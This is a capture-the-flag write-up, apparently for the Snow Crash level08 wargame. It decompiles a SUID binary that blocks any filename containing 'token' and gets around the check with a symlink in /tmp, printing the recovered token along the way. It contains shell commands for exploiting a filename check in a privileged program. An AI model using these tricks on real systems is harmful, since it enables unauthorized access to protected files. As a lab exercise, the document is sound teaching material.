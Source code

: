 # foothold

Yet another level without prior information, and yet another level with a
binary in the home... (z.z) zzZ

But, this seem a little fun, because apart from the usual `level08` binary
with the SUID bit, we have a `token` file, that I can't read.

Let's `strings` that binary, this is the relevant sectionj:
```diff
+printf
+strstr
+read
+open
 __libc_start_main
+write
 GLIBC_2.4
 GLIBC_2.0
 PTRh
 QVhT
 UWVS
 [^_]
+%s [file to read]
+token
+You may not access '%s'
+Unable to open %s
+Unable to read fd %d
```

As we can see, it uses the usuals functions for opening and reading a file,
so we can asssume the `token` file is gonna be crucial, but I don't understand
why "token" is also present in a string.

It also has some strings, let's play a little.

When ran without arguments:
```bash
$ ./level08
./level08 [file to read]
```

When ran with random as argument:
```bash

$ ./level08 paco
level08: Unable to open paco: No such file or directory
```
When ran with `token` as argument:
```bash
$ ./level08 token
You may not access 'token'
```

So that's why the `token` string was presen in the binary, that file is
protected.

Of course, absolute and relative routes are protected:
```bash
$ ./level08 /home/user/level08/token
You may not access '/home/user/level08/token'
$ ./level08 ./token
You may not access './token'
```

A symbolic link does not work either, of course:
```bash
$ ln -s ~/token /dev/shm/foo
$ ./level08 /dev/shm/foo
level08: Unable to open /dev/shm/foo: Permission denied
```

Let's see in more depth what is doing:
```c
int main(int argc,char **argv,char **envp)
{
    char *pcVar1;
    int __fd;
    size_t __n;
    ssize_t sVar2;
    int in_GS_OFFSET;
    undefined4 *in_stack_00000008;
    int fd;
    int rc;
    char buf [1024];
    undefined local_414 [1024];
    int local_14;
    
    local_14 = *(int *)(in_GS_OFFSET + 0x14);
    if (argc == 1) {
        printf("%s [file to read]\n",*in_stack_00000008);
        exit(1);
    }
    pcVar1 = strstr((char *)in_stack_00000008[1],"token");
    if (pcVar1 != (char *)0x0) {
        printf("You may not access \'%s\'\n",in_stack_00000008[1]);
        exit(1);
    }
    __fd = open((char *)in_stack_00000008[1],0);
    if (__fd == -1) {
        err(1,"Unable to open %s",in_stack_00000008[1]);
    }
    __n = read(__fd,local_414,0x400);
    if (__n == 0xffffffff) {
        err(1,"Unable to read fd %d",__fd);
    }
    sVar2 = write(1,local_414,__n);
    if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
        __stack_chk_fail();
    }
    return sVar2;
}
```

*Note: I reverse binaries because is cool, don't go saying "you could just had use ltrace", no, okey? no.*

As I thought, `strstr()` to check for the "token" string...

We cannot open the binary to edit the "token" string...

We can see the libc is dynamic... We could compile a libc with a custom `strstr`
and link with our libc with `LD_PRELOAD`...

But it can't be that hard, let's be honest.

# exploit

```bash
# The important thing about the token symlink is that the path is absolute
$ ln -s /home/user/level08/token /tmp/ez
$ ln -s `realpath token` /tmp/ez
$ ln -s ~/token /tmp/ez

$ ./level08 /tmp/ez
quif5eloekouj29ke0vouxean
```

And yeah, another easy one, just `su flag08` and `getflag` and we are ready
to go.

What? Did you think that because it didn't work on `/dev/shm` it would not work
on `/tmp`, noob.

But why? You may ask, well, permissions are the same right...?
```bash
$ ls -ld /run/shm/
drwxrwxrwt 2 root root 180 May 17 01:41 /run/shm/
$ ls -ld /tmp
d-wx-wx-wx 4 root root 180 May 17 01:42 /tmp

$ ls -l /dev/shm/ez
lrwxrwxrwx 1 level08 level08 24 May 17 01:41 /dev/shm/ez -> /home/user/level08/token
$ ls -l /tmp/ez
lrwxrwxrwx 1 level08 level08 24 May 17 01:40 /tmp/ez -> /home/user/level08/token
```

There are a lot of other factors as play here:
- Apparmor: it may be forcing additional access controls beyond standard file permissions.

What is more strange is that when executing the binary with `strace`, both
`/tmp/ez` and `/dev/shm/ez` fails to open, but without `strace`, the `/tmp`
symlink works just fine.

So, this is a mistery... But trying varius thing and directories, specially when
getting weird errors, is important.
